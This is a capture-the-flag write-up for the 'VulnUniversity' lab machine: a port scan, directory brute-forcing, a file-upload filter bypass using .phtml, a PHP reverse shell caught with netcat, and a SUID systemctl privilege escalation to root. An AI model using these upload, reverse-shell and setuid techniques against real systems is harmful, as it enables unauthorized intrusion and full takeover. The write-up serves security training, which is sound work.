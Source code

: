 # VulnUniversity

# nmap

```
❯ sudo rustscan -a 10.10.0.233 -- -n -Pn -sV -sC -oA nmap-tcp-all

Nmap scan report for 10.10.0.233
Host is up, received user-set (0.084s latency).
Scanned at 2021-10-06 17:14:20 EDT for 28s

PORT     STATE SERVICE     REASON         VERSION
21/tcp   open  ftp         syn-ack ttl 61 vsftpd 3.0.3
22/tcp   open  ssh         syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDYQExoU9R0VCGoQW6bOwg0U7ILtmfBQ3x/rdK8uuSM/fEH80hgG81Xpqu52siXQXOn1hpppYs7rpZN+KdwAYYDmnxSPVwkj2yXT9hJ/fFAmge3vk0Gt5Kd8q3CdcLjgMcc8V4b8v6UpYemIgWFOkYTzji7ZPrTNlo4HbDgY5/F9evC9VaWgfnyiasyAT6aio4hecn0Sg1Ag35NTGnbgrMmDqk6hfxIBqjqyYLPgJ4V1QrqeqMrvyc6k1/XgsR7dlugmqXyICiXu03zz7lNUf6vuWT707yDi9wEdLE6Hmah78f+xDYUP7iNA0raxi2H++XQjktPqjKGQzJHemtPY5bn
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHCK2yd1f39AlLoIZFsvpSlRlzyO1wjBoVy8NvMp4/6Db2TJNwcUNNFjYQRd5EhxNnP+oLvOTofBlF/n0ms6SwE=
|   256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqh93OTpuL32KRVEn9zL/Ybk+5mAsT/81axilYUUvUB
139/tcp  open  netbios-ssn syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack ttl 61 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  syn-ack ttl 61 Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s
| nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   VULNUNIVERSITY<00>   Flags: <unique><active>
|   VULNUNIVERSITY<03>   Flags: <unique><active>
|   VULNUNIVERSITY<20>   Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 25950/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 26690/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 61430/udp): CLEAN (Failed to receive data)
|   Check 4 (port 3153/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2021-10-06T17:14:43-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-10-06T21:14:43
|_  start_date: N/A
```

# Recon

Checking out web server on port 3333 first.

Standard scans:

```sh
❯ ulimit -n 8192 # prevent file access error during scanning
❯ whatweb -v -a3 http://10.10.0.233:3333 | tee whatweb.log
# Script, Apache[2.4.18], Bootstrap[4.1.0], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], Email[info@yourdomain.com], JQuery

❯ gobuster dir -ezqrkw /usr/share/dirb/wordlists/common.txt -t 100 -x "txt,htm,html,php,cgi" -o gobuster.txt -u http://10.10.0.233:3333

http://10.10.0.233:3333/css                  (Status: 200) [Size: 4088]
http://10.10.0.233:3333/fonts                (Status: 200) [Size: 1536]
http://10.10.0.233:3333/index.html           (Status: 200) [Size: 33014]
http://10.10.0.233:3333/index.html           (Status: 200) [Size: 33014]
http://10.10.0.233:3333/images               (Status: 200) [Size: 7204]
http://10.10.0.233:3333/internal             (Status: 200) [Size: 525]
http://10.10.0.233:3333/js                   (Status: 200) [Size: 4636]
http://10.10.0.233:3333/server-status        (Status: 403) [Size: 301]
```

Directory `internal` looks interesting. Browsing to the main page:

![](img/web-main.png)

Browsing to `/internal/`:

![](img/web-internal.png)

Let's see if we can upload arbitrary php:

```sh
# make test php file
❯ echo "<?php echo passthru('uname -a') ?>" > test.php
```

Trying to upload, gives message "Extension not allowed". Time to fuzz what file extensions are allowed. Opening Burp Intruder to test. First, set up the mode to "sniper" and set the position to manipulate the file extension:

![](img/intruder-payload.png)

Then add a list of variations on the php extension:

![](img/intruder-payload2.png)

Finally, run the attack:

![](img/intruder-attack.png)

Now I see that `phtml` is allowed. Browsing to `view-source:http://10.10.0.233:3333/internal/uploads/test.phtml`, I see the output of my command:

```
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

# Exploit

So now grab a php reverse shell from [Pentest Monkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php), and name it `rsh.phtml`, and change the callback IP in the script to mine. Upload and catch the shell:

```sh
❯ sudo nc -lvnp 443
$ cd /home
$ ls
bill
$ cd bill
$ ls
user.txt
$ cat user.txt
8bd7992fbe8a6ad22a63361004cfcedb
```

# PrivEsc

Searching for SUID/SGID binaries:

```sh
$ find / -type f \( -perm -g+s -a -gid 0 \) -o \( -perm -u+s -a -uid 0 \) -exec ls -l {} \; 2>/dev/null
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 76408 Jul 17  2019 /usr/lib/squid/pinger
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/m
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 35600 Mar  6  2017 /sbin/mount.cifs
```

The `systemctl` one is listed in [GTFObins](https://gtfobins.github.io/gtfobins/systemctl/). To exploit it provides this script:

```sh
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```

Running the above code results in the file `/tmp/output` with the contents `uid=0(root) gid=0(root) groups=0(root)`!

To get the full shell, modify the above script to:

```sh
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/chmod u+s /bin/sh
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```

Then run `sh -p` to get a shell as root.

```sh
cat root.txt
a58ff8579f0a9270368d33a9966c7fd5
```

